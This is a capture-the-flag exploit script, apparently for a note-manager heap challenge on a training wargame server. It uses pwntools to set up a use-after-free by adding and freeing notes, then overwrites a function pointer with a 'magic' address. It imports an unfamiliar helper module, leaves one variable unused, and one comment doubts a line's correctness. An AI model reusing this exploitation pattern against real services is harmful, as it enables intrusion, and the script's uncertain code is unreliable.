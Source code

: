 


```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# `Pwntools`用来帮助开发者进行二进制漏洞利用。`pwn` 库提供了丰富的功能，包括与远程程序交互、生成特定的二进制数据等。
# `pwnpwnpwn` 通常用于快速构建常见的 PWN（攻击）操作。
from pwnpwnpwn import *
from pwn import *

# 这个主机和端口是题目给定的远程服务，攻击者通过与该服务的交互来进行攻击
host = "training.pwnable.tw"
port = 11010

r = remote(host,port)

def addnote(size,content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)

def delnote(idx):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))

def printnote(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))

magic = 0x08048986
system = 0x8048506

addnote(32,"ddaa")  # add note 0
addnote(32,"ddaa")  # add note 1
addnote(32,"ddaa")  # 不确定这一句是否正确

delnote(0) # delete note 0
delnote(1) # delete note 1

# `p32(magic)` 是将 `magic` 地址（0x08048986）转换成 4 字节的小端格式（即 `p32(magic)` 会将 `magic` 转化为 `\x86\x89\x04\x08`）。
addnote(8,p32(magic)) # add note 2

printnote(0) # print note 0

r.interactive()
```
